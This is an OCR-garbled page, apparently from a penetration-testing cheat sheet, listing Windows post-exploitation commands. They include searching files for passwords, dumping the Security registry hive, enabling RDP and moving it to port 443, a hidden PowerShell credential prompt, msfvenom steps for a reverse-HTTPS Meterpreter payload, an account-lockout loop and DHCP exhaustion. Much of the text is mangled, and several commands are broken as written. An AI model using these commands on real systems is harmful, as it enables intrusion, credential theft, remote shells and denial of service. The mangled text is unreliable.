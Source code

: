 ```powershell
systeminfo /S ip /U domain\user /P Pwd
dir /a /s /b c:\'.pdf'
dir /a /b c:\windows\kb'
findstr /si password' .txt I •.xmll •.xls tree /F /A c:\ tree.txt
reg save HKLl~\Security security.hive echo %USERNAl~E%
```

# Start RDP

```powershell
reg add "HKEY LOCAL t1ACHINE\SYSTEH\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
(Tunnel RDP through port 443) REG ADD "HKLM\System\CurrentControlSet\Control\Terminal
Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f
```

# PowerShell Enumeration

```powershell
Get-WmiObject -class win32 operatingsjstem I select -property 1 csv c:\os.txt
Get-Service I where object {$ .status -eq ''Running''}
(new-object sjstem.net.webclient) .downloadFile(''url'',''dest'')
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass $Host.UI.PromptForCredential( 11 title ", 11 message 11 1 11 user" 11 domain")
powershell.exe Send-l-1ai1Hessage -to " email " -from " email " -subject "Subject11 -a " attachment file path " -body "Body" -SmtpServer Target Email Server IP
```

# PowerShell Launching Meterpreter Payload

1. msfvenom -p Wlndows/meterpreter/reverse https -f psh -a x86 LHOST=l.l.l.l LPORT=443 audit.ps1
2. Move audit.ps1 into same folder as encodeMeterpreter.ps1
3. Launch Powershell (x86)
4. powershell.exe -executionpolicy bypass encodeMeterpreter.ps1
5. Copy the encoded Meterpreter string

# Windows User Lockout

```batch
@echo T est run:
for /f %%U in (list.txt) do @for /1 %%C in (1,1,5) do @echo net use \\WIN- 1234\c$ /USER:%%U wrongpass
```

# Windows DHCP Exhaustion

```powershell
for /L %i in (2,1,254) do (netsh interface ip set address local static
1.1.1.%i netrnask gw I~ %1 ping 12-.0.0.1 -n l -w 10000 nul %1)
```
